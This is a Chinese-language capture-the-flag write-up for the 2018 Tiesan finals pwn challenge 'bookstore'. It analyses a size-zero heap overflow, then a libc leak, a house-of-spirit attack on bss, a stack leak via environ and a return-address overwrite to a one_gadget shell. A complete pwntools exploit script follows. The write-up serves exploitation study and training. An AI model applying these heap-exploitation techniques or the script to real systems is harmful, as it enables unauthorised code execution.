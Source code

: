 ```yaml
---
title: 2018铁三总决赛_bookstore
date: 2018-12-07 23:03:26
tags: pwn 
---
```

bookstore 
<!--more-->
# About 
这题大部分时间花在找漏洞点上...还有反编译之后看起来很奇怪....可能是ida玩得太菜了
和之前做了一天的那题steak利用思路很像...
被steak折磨了一天...
# Analysis
[附件][1]
## partI
咸鱼的我看了拿到程序后分析了1个小时找不到洞...对于这种数值型的洞还是分析地太少了...
啥时候加强练一波...

后来一行一行地找发现了漏洞点
```arm
 idx = 0;
  while ( 1 )
  {
    result = (unsigned int)(size - 1);
    if ( (unsigned int)result <= idx )
      break;
    read(0, &buf, 1uLL);
    result = buf;
    if ( buf == 10 )
      break;
    now = idx++;
    s[now] = buf;
  }
```
这里的size如果是0那么前面会malloc一个0x20大小的chunk
但是这里可以输入0xxxxxfsize的值...反正就是溢出了...

主要得以实现全靠read(0, &buf, 1uLL);
同样是今天在做第二题的时候发现read的第三个参数数值不得太大否则不会malloc而直接ret具体内容明天高铁上看看源码

存在溢出那么一切就简单我们可以肆无忌惮地进行下面的工作

## partII
因为题目最大`malloc0x50`因为需要泄露`libc_base`所以最直接地我们需要free一个大于`0x80`的chunk
因为我们有溢出所以我们可以直接改写chunk_size
（为了避免double free pre我们多malloc几个chunk填上0x21）
这样我们就可以成功泄露libc

## partIII
有了libc但是因为最大只能malloc 0x60的chunk
所以想起了steak的方法通过控制bss上指针扩大战果后控制stack
继而控制执行流

于是我们利用可以控制作者名在bss上构造chunk然后用house of sprit获得bss的写权限
往ptr上写libc.symbols['envron']泄露出stack

继而计算出ret_address的地址环顾其上约-0x60的区域发现一处值为0x40开头的代码段地址因为是no pie所以会稳定

于是我们可以大胆地用之前控制bss的方法控制返回地址周围的区域

之后只要跳one_gadget就可以getshell


# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice:\n",str(c))
def add(size,name,author=p64(0x61)*3+'\x61'+'\n'):
	cmd(1)
	p.sendafter("name?\n",(author))
	p.sendlineafter("name?\n",str(size))
	p.sendlineafter("book?\n",(name))
def free(idx):
	cmd(2)
	p.sendlineafter("sell?\n",str(idx))
def read(idx):
	cmd(3)
	p.sendlineafter("sell?\n",str(idx))
p=process("./bookstore")
#p=remote("202.0.1.70",40003)
context.log_level='debug'
add(0x18,p64(0xdeadbeef))#0
add(0x48,p64(0xcafebabe))#1
add(0x48,p64(0x21)*9)#2
add(0x48,p64(0x21)*9)#3
free(0)
add(0,(p64(0)*3+p64(0x91)))#0
free(1)
add(0x48,'')
read(1)
p.readuntil("name:")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dd1bf8-0x00007ffff7a0d000)
log.warning(hex(base))
# leak libc over 
add(0x38,p64(0xdeadbeef))#4
add(0x18,'\n')#5
add(0x4f,'\n')#6
add(0x48,p64(0x12)*9)#7
add(0x48,p64(0x12)*9)#8
free(5)
add(0,p64(0)*3+p64(0x61))#5
free(6)
free(5)

binary=ELF("./bookstore")
libc=binary.libc
libc.address=base

add(0,p64(0)*3+p64(0x61)+p64(0x602060-8))#5
add(0x4f,'\n')#6
add(0x4f,p64(0xdeadbeef)*3+p64(libc.symbols['environ']))#9
read(0)
p.readuntil("name:")
stack=u64(p.readline()[:-1].ljust(8,'\x00'))
log.warning(hex(stack))
aim=stack+(0x7fffffffde5a-0x7fffffffdf68-8)
# leak stack over 
add(0x18,'\n')#10
add(0x38,'\n')#11
free(10)
free(11)
add(0,p64(0xdeadbeef)*3+p64(0x41)+p64(aim))
add(0x38,'\n')

#gdb.attach(p)
one=0x45216+base
add(0x38,"\x00"*6+p64(0)+p64(0x400c70)+p64(one))
# control stack
cmd(4)
p.interactive()
```

 


 [1]:https://github.com/n132/Watermalon/tree/master/Tiesan_2018
